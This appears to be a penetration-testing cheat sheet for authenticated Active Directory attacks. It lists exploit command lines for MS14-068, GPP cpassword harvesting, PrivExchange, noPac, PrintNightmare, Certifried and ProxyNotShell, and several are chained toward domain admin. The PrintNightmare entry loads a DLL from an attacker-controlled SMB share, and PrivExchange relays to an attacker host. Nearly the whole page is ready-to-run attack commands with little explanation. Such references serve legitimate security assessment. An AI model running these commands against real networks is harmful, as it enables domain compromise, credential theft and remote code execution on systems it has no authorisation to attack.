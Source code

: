 ```yaml
---
title: "Know vulnerabilities authenticated"
description: "Know vulnerabilities authenticated techniques and commands for Active Directory security assessment."
---
```

## MS14-068 >>> PTT >>> Domain admin || Admin
- `findSMB2UPTime.py <ip>`
  - `ms14-068.py -u <user>@<domain> -p <password> -s <user_sid> -d <dc_fqdn>`
  - `msf> use auxiliary/admin/kerberos/ms14_068_kerberos_checksum`
  - `goldenPac.py -dc-ip <dc_ip> <domain>/<user>:<password>@target`

## GPP MS14-025 >>> Domain admin
- `msf> use auxiliary/scanner/smb/smb_enum_gpp`
- `findstr /S /I cpassword \\<domain_fqdn>\sysvol\<domain_fqdn>\policies\*.xml`
- `Get-GPPPassword.py <domain>/<user>:<password>@<dc_fqdn>`

## PrivExchange (CVE-2019-0724, CVE-2019-0686) >>> HTTP Coerce >>> Domain admin || Admin
- `privexchange.py -ah <attacker_ip> <exchange_host> -u <user> -d <domain> -p <password>`

## noPac (CVE-2021-42287, CVE-2021-42278) >>> PTT >>> DCSYNC >>> Domain admin
- `nxc smb <ip> -u 'user' -p 'pass' -M nopac #scan`
- `noPac.exe -domain <domain> -user <user> -pass <password> /dc <dc_fqdn> /mAccount <machine_account> /mPassword <machine_password> /service cifs /ptt`

## PrintNightmare (CVE-2021-1675, CVE-2021-34527) >>> Admin
- `nxc smb <ip> -u 'user' -p 'pass' -M printnightmare #scan`
- `printnightmare.py -dll '\\<attacker_ip>\smb\add_user.dll' '<user>:<password>@<ip>'`

## Certifried (CVE-2022-26923) >>> PTT >>> DCSYNC >>> Domain admin
- Create account
  - `certipy account create -u <user>@<domain> -p '<password>' -user 'certifriedpc' -pass 'certifriedpass' -dns '<fqdn_dc>'`
- Request
  - `certipy req -u 'certifriedpc$'@<domain> -p 'certifriedpass' -target <ca_fqdn> -ca <ca_name> -template Machine`
- Authentication
  - `certipy auth -pfx <pfx_file> -username '<dc>$' -domain <domain> -dc-ip <dc_ip>`

## ProxyNotShell (CVE-2022-41040, CVE-2022-41082) >>> Admin
- `poc_aug3.py <host> <username> <password> <command>`